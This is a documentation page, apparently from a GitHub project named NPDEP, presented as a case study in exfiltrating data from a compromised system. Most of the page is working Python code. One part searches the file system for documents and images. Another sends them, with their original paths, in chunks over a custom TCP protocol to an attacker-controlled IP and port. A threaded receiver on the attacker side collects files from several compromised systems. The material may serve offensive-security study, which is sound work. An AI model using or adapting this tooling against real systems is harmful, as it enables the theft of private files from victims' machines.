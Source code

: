 ```yaml
---
layout: mermaid
---
```


# Case Study: Data Exfiltration Protocol

[Start](../README.md)

- [Case Study: Data Exfiltration Protocol](#case-study-data-exfiltration-protocol)
  - [Introduction](#introduction)
  - [Sourcing Module](#sourcing-module)
  - [Transfer Module](#transfer-module)
  - [Receiver Module](#receiver-module)
  - [Configuration](#configuration)

## Introduction

Please read the documentation on [Architecture](./architecture.md), [Client](./client.md) and [Server](./server.md) before starting with this case study.

Consider the following scenario where files that could be useful for an attacker are to be identified on `Compromised System`. These files are to be split up and transferred to `Attacker System`.

```mermaid
flowchart LR
    A(Compromised System)-->B(Internet)
    B(Internet)-->C(Attacker System)
```

How can data exfiltration be realized by using NPDEP? What is important when transferring data? What characteristics should a protocol have that is specially developed for data exfiltration via the network?

## Sourcing Module

To identify files of interest on a system, its file system must be searched. The following source code shows one possible implementation:

```python
class Search():
    def __init__(self, fileTypes=[]) -> None:
        self.__fileTypes = fileTypes
        self.__files = []

    def getFilePaths(self, path):
        for dirPath, dirNames, fileNames in os.walk(path,topdown=True):
                for fileName in fileNames:
                    for fileType in self.__fileTypes:
                        if fileName.endswith("." + fileType):
                            filePath = os.path.join(dirPath, fileName)
                            self.__files.append(filePath)
            
        return self.__files
```
The listing shows the class `Search`, which accepts a list of `fileTypes` and searches for these in the path also provided.

```python
s = Search(["pdf","txt", "jpg", "png"])
filePaths = s.getFilePaths("path/to/files")
```
The listing shows the handover of the list `["pdf", "txt", "jpg", "png"]` to search for these files in the path `path/to/files`. The result is also a list of file paths if one of the specified file extensions is found.

In order to ensure maximum flexibility, this code is not implemented directly in a sourcing module, but is combined in a Python package so that it can be installed via pip. The following listing shows the implementation of the `FoiModule` with the dependency `foi`, which in turn implements the file identification capability described above.

```py

from foi.search.Search import Search as FoiSearch

from npdep_common.interface.Interface import Interface

from npdep_sourcing.base.Sourcing import Sourcing

class FoiModule(Sourcing):
    def __init__(self, options, registration):
        super().__init__("FoiModule", options, registration)

    def init(self):
        pass

    def get(self):
        s = FoiSearch(self.options["files"])
        paths = s.getFilePaths(self.options["path"])
        return Interface.process(files=paths)
    
    def end(self):
        pass
```

The listing shows how `foi` is now used as a dependency in `FoiModule` and how the identified paths are passed to the transfer module in the `get` method.

## Transfer Module

How can files now be sent in adjustable units? In this regard, it must first be explained what a file consists of and how it is structured. Data is electronically stored information. This data is represented by bytes. In order to save a specific file, these bytes are arranged and saved in a specific order. This is referred to as a file format. A file can consist of a large number of bytes, which are need to be transmitted over the network when this file shall be transfered.

Further characteristics of a file are described in the metadata. Metadata is information that describes the file itself, but is not part of the file format. This metadata includes, for example, the file path, the file size or the timestamp of the file changes.

The file path plays an important role with regard to data exfiltration. This path describes the storage location on the compromised system and can contain important information about the context of the file. If you think about the exfiltration of a large amount of files, it quickly becomes clear that it makes no sense to simply transfer and save the respective file. In this respect, a storage structure must be created. This structure could consist of transferring the original path of the file on the compromised system to the server in order to also save the file on the server under its original path.

With this knowledge, we will now introduce the Data Exfiltration Protocol (DEP), which enables the transfer of files in adjustable units and their metadata using four special protocol messages based on TCP:

[Data Exfiltration Protocol Specification](./dep.md)

In order to remain just as flexible here, DEP is not implemented directly in a transfer module but is realized by a Python package that can be integrated into a transfer module as a dependency. The following listing shows how `dep-client` is used as a dependency in the transfer module `DepFileExfiltration`:

```python
import os
import time

from dep_client.client.Client import Client as DEPClient
from dep_client.util.Util import Util as DEPClientUtil
from dep_common.converter.Converter import Converter as DEPConverter
from dep_common.hash.Hash import Hash as HashCalc

from npdep_transfer.base.Transfer import Transfer

'''
Transfers files through the Use of Data Exfiltration Protocol (DEP)
'''
class DepFileExfiltration(Transfer):
    def __init__(self, options, registration) -> None:
        super().__init__("DepFileExfiltration", options, registration)
        self.client = DEPClient(options["ip"], options["port"], options["pkgSize"])

    def init(self):
        b_uuid = DEPConverter.uuidToBytes(self.registration.id)
        # Compromised system is registered at the server
        self.client.sendSystemInformationMessage(b_uuid)

    def send(self, container):
        b_uuid = DEPConverter.uuidToBytes(self.registration.id)
        # Check for files
        for path in container["files"]:
            # Get the file size of the file
            fileSize = os.path.getsize(path)
            # Generate sha256 hash of the file
            b_sha256 = HashCalc.getSha256Hash(path)
            # Send metadata of the file to the server
            self.client.sendDataInformationMessage(b_uuid, b_sha256, path, fileSize)
            time.sleep(.8) # This sleep is necessary to realize smooth data sending
            # From now on, the file will be read in chunks to be transfered to the server
            DEPClientUtil.sendFileWithDataContentMessage(self.client, self.options["ip"], self.options["port"], self.options["pkgSize"], path, b_uuid, b_sha256)
            print(path + " exfiltrated!")
```

In the `Creation` phase, the `__init__` method is used to create an instance of the DEPClient, which enables the transmission of data via the DEP messages. In this respect, the `SystemInformationMessage` message is transmitted to the attacker system in the `Initialization` phase using the `init` method.

The actual transfer takes place in the `send` method, which represents the `transfer` phase. The `container` parameter contains the `files` list, which contains the file paths of the files to be exfiltrated on the compromised system.

For each of these files, the necessary metadata is collected in order to transmit a `DataInformationMessage` to the attacker system. This is followed by the transmission of the respective file by sending multiple `DataContentMessages`. 

In this case, no use is made of the `DataAcknowledgeMessage`. The data should be transmitted without being checked on the attacker system.

## Receiver Module

How does the receiving of these messages work on the attacker side? In this regard, the following listing shows the implementation of the `DepReceiver` receiver module:

```py
import socket
from threading import *

from npdep_receiver.receiver.base.Receiver import Receiver
from npdep_receiver.receiver.module.dep.DepMessageProcessor import DepMessageProcessor

class DepReceiver(Receiver):
    def __init__(self, options, logger):
        super().__init__("DepReceiver", options, logger)
        self.socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        self.thread = Thread(target=self.handle)
        self.systemInfoMessages = []
        self.dataInfoMessages = []
        
    def start(self):
        self.socket.bind((self.options["ip"], self.options["port"]))                  
        self.socket.listen(5)
        self.thread.start()
                
    def handle(self):  
        self.logger.log(self.id + " started listening") 
        while self.isRunning:
            connection, address = self.socket.accept()
            self.logger.log(self.id + " accepted connection from: " + str(address)) 
            processor = DepMessageProcessor(self.options, connection, self)
            processor.start()
            self.logger.log(self.id + " started processing from: " + str(address)) 
```
It is obvious that the message processing is shifted to a separate thread here, so that the simultaneous connection and associated data transmission of several compromised systems is possible. The processing of the respective message is carried out by the `DepMessageProcessor`, which also starts its own process so as not to block the receiving thread.

## Configuration

You can find more about configuration under [Usage](./usage.md).
 